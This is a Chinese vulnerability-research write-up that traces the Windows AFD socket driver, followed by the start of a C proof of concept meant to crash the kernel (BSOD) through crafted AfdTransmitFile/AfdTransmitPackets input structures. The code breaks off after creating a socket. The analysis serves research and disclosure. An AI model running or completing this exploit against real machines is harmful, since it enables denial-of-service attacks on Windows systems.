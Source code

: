 通过对内核中 0xAFD2 常数的追踪， 最终定位到这个常数的位置如下图：

 

![](https://bbs.pediy.com/upload/attach/202206/156241_QY5YRCCJCJZDZUE.png)

 

接下来看一下 winsock2 模块是干啥用的， 了解一个模块的作用， 最快的方法莫过于通过其头文件了， 看一下其导出的函数：

 

![](https://bbs.pediy.com/upload/attach/202206/156241_DW68H8Z23Y65J27.png)

 

发现一个老熟人， WSAStartup， 所以推测 \\?\GLOBALROOT\Device\Afd 是和 socks 函数相关的， 尝试把句柄替换为 socks 函数产生的句柄成功触发 BSOD。

成功构造 POC
--------

在知道正确的句柄类型之后， 我们就可以创建正确的设备对象来构造触发 BSOD 的 POC 了，下面 POC 中的端口， 只要是任意开放端口即可。

```
#include #include #include #include typedef struct _INPUT_AfdTransmitFile {   
    DWORD field1;   
    DWORD field2;   
    DWORD field3;   
    DWORD field4;   
    DWORD field5;   
    DWORD field6;   
    DWORD field7;   
    DWORD field8;   
    DWORD field9;   
    DWORD field10;   
    DWORD field11;   
    DWORD field12;   
} INPUT_AfdTransmitFile;   
 
typedef struct _INPUT_AfdTransmitPackets {   
    DWORD field1;   
    DWORD field2;   
    DWORD field3;   
    DWORD field4;   
    DWORD field5;   
    DWORD field6;   
} INPUT_AfdTransmitPackets;   
 
int main()   
{   
    DWORD bytesRet;   
 
    INPUT_AfdTransmitFile InputAfdTransmitFile = {0};   
    memset(&InputAfdTransmitFile, 0, sizeof(INPUT_AfdTransmitFile));   
    InputAfdTransmitFile.field7 = 0x13371337;   
    InputAfdTransmitFile.field8 = 0x15fcd9;   
    InputAfdTransmitFile.field11 = 1;   
 
    INPUT_AfdTransmitPackets InputAfdTransmitPackets = {0};   
    memset(&InputAfdTransmitPackets, 0, sizeof(INPUT_AfdTransmitPackets));   
    InputAfdTransmitPackets.field1 = 1;   
    InputAfdTransmitPackets.field2 = 0x0aaaaaaa;   
 
    WSADATA WSAData; 
    SOCKET sock_fd; 
    SOCKADDR_IN sa; 
    WSAStartup(0x2, &WSAData); 
    sock_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); 
```
